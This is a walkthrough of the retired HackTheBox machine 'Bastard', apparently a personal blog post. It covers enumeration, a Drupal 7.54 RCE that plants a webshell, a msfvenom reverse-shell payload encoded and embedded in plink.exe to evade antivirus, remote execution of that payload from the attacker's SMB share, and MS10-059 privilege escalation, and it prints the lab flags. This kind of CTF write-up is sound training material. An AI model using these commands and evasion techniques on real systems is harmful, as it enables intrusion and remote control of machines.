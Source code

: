 ```yaml
---
layout: post
title: "HTB-Bastard"
categories: HTB-Walkthrough
---
```


![bastard](/assets/img/bastard/bastard.png)

Bastard is another HTB machine from the 'retired' list, and it is'nt as bad as it sounds.

Nmap first...
`nmap -sV -Pn 10.10.10.9 |tee -a bast.txt`

```

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Immediate plan of action: Check searchsploit for IIS 7.5, and checkout the website via the browser...

`searchsploit iis 7.5`

```

---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities  | exploits/windows/remote/19033.txt

```

This was the only exploit (besides the dos one), so I opened up the browser to see what the web-server was doing...

![bastard-frontpage](/assets/img/bastard/bastard-frontpage.png)

In the source of the frontpage I spot that the site is using Drupal version 7

```

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />

```

Checking this with searchsploit yeilded more results...

`searchsploit drupal 7`

![bastard-drupal-searchsploit](/assets/img/bastard/bastard-drupal-searchsploit.png)


Not sure at this stage exactly what version Drupal 7 we have, I decide to enumerate the server's directories with gobuster.

I often run gobuster with the `-t 50` flag (threads=50), but that threw up lots of errors, so I went with the default 10, then eventually to 5, still a few errors and it was awfully slow:

`gobuster dir -u http://10.10.10.9/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 5`

While gobuster was doing its thing, I had a manual browse; `robots.txt` is always the first to try as it can provide a good jumping point for further browsing, but so often reveals nothing...

Not in this case...robots.txt is full of information...I scan the list for interesting destinations.

In the `#files` section there is `/CHANGELOG.txt`, which should be able to give us an accurate version number.


It  informs us that the exact version of drupal is
`Drupal 7.54, 2017-02-01`

Armed with this I look at the searchsploit results again, and see that the options are reduced.

I copied the `Drupal services module RCE` and the `Drupalgeddon3 RCE PoC` (not metasploit version) to my working folder and had a read.

`searchsploit -m 41564`
`searchsploit -m 44542`



############################################


![Incomming!](/assets/img/m.jpg)

<hr width="250" size="6">


I decided to have a go at the drupal services module RCE exploit; it requires modifying, I need to find the rest endpoint.

My gobuster results include ` /rest`
Browsing to the page gets the message:

`Services Endpoint "rest_endpoint" has been setup successfully.`

So I'm able to modify the exploit accordingly

![drupal-exploit](/assets/img/bastard/bastard-drupal-exploit.png)

I changed the php payload to a webshell, that's executable from the created page sh1n0bi.php.

Rather than upload the evil.exe I can serve it to the target with Impacket's smbserver.py




<h4>msfvenom</h4>
I use msfvenom to craft a payload, I chose a 'known' port thats usually deemed 'safe', but is not in use, I also encrypt it with `shikata_ga_nai` and embed it into a 'safe' binary called `plink.exe`;
hopefully any defences looking for a suspicious signature will not be alerted.

```

msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=443 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil.exe

```




First we have to run smbserver.py and share the folder containing evil.exe.

`python smbserver.py -comment 'My share' Sh1n0bi /tmp/sh1n/`

Second, set an nc listener...
`nc -nlvp 443'

Third, execute the evil payload via the created webshell.
`10.10.10.9/sh1n0bi.php?cmd=\\10.10.14.16\Sh1n0bi\evil.exe`

we get a shell...


![smbshare](/assets/img/bastard/bastard-smbshare.png)

![gotshell](/assets/img/bastard/bastard-gotshell.png)

<hr width="250" size="6">


<h3>Privilege Escalation</h3>



I check with `windows-exploit-suggester.py` 

![suggester](/assets/img/bastard/bastard-suggester.png)


I select MS10-059.exe, copy it to my /tmp/sh1n folder as chim.exe


I execute it from the target making sure I start a netcat listener first.

![chim](/assets/img/bastard/bastard-chim.png)

![rootshell](/assets/img/bastard/bastard-rootshell.png)



```

type dimitris\desktop\user.txt
ba22fde1932d06eb76a163d312f921a2

```


```

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c

```

:)
